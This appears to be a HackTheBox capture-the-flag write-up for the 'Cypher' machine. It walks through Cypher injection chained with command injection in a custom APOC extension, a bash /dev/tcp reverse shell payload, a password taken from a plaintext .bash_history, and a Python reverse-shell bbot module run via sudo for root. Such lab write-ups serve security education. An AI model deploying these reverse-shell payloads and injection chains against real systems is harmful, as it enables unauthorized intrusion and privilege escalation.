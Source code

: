 ```yaml
---
title: HackTheBox | Cypher
published: 2025-03-07
description: "In this write-up, I explain how I gained ownership of Cypher on HackTheBox."
image: "./img/image.png"
tags: [CTF, HTB, write-up]
category: 'CTF'
draft: false
---
```


# Enumeration

## Port Scan
Let's start by scanning the target with Nmap:

```bash
sudo nmap -sC -sV 10.10.11.57
```

### Scan Results

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 21:27 +00
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 10.71 seconds
```

## Exploring Port 80
Since port 80 is open, let's check the web server:

![home](image.png)

Let's run `dirsearch` while manually exploring the site.

```bash
dirsearch -u http://cypher.htb/ -t 50
```

We found a login page. Checking the source code reveals an interesting hint:

```javascript
  <script>
    // TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
      var password = $("#passwordfield").val();
      $.ajax({
        url: '/api/auth',
        type: 'POST',
        contentType: 'application/json',
        data: JSON.stringify({ username: username, password: password }),
        success: function (r) {
          window.location.replace("/demo");
        },
        error: function (r) {
          if (r.status == 401) {
            notify("Access denied");
          } else {
            notify(r.responseText);
          }
        }
      });
    }
  </script>
```

This suggests a potential **Cypher Injection** vulnerability. Testing with special characters like `\'` confirms our suspicion.

![error](image-1.png)

## Exploiting Cypher Injection
Checking `dirsearch` results, we find a `/testing` endpoint:

![apoc_custom](image-2.png)

It contains a custom APOC extension that may be vulnerable. Let's download and reverse-engineer it:

```bash
java -jar cfr.jar custom-apoc-extension-1.0-SNAPSHOT.jar --outputdir decompiled
```

### Identifying the Vulnerability

Looking at the decompiled code, we find a weakness:

![code](image-3.png)

The application directly appends user input to a system command. We can exploit this by injecting a reverse shell payload:

```
example.com;bash -c "bash -i >& /dev/tcp/10.10.XX.XXX/9001 0>&1"
```

Using Cypher Injection, we craft the following payload:

```bash
admin' OR 1=1 CALL custom.getUrlStatusCode('example.com;bash -c "bash -i >& /dev/tcp/10.10.XX.XXX/9001 0>&1"') YIELD statusCode RETURN statusCode //
```

Setting up a listener:

```bash
nc -lvnp 9001
```

We successfully gain a shell:

![neo4j](image-4.png)

## Privilege Escalation

### Identifying Another User
Checking `/etc/passwd`, we find another user, `graphasm`, whom we need to pivot to:

![grahasm_user](image-5.png)

Examining `.bash_history`, we find a stored password:

```bash
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```

Trying it for `graphasm`:

```bash
ssh graphasm@10.10.11.57
```

And it works:

![user](image-6.png)

### Root Privilege Escalation

Running `sudo -l`, we see that we can run `bbot` as root. Checking its documentation, we find that it supports custom modules:

![doc](image-7.png)

#### Creating a Malicious Module

```bash
mkdir -p /tmp/bbot/modules
nano /tmp/bbot/modules/rev.py
```

```python
from bbot.modules.base import BaseModule
import socket, subprocess, os
import pty

class rev(BaseModule):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.XX.XXX", 9001))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    pty.spawn("bash")
```

Next, we configure `bbot` to load this custom module:

```bash
nano /tmp/mypreset.yml
```

```yaml
module_dirs:
  - /tmp/bbot/modules
```

We set up our listener:

```bash
nc -lvnp 9001
```

Then, execute `bbot` as root:

```bash
sudo /usr/local/bin/bbot -t ecorp.htb -p /tmp/mypreset.yml -m rev
```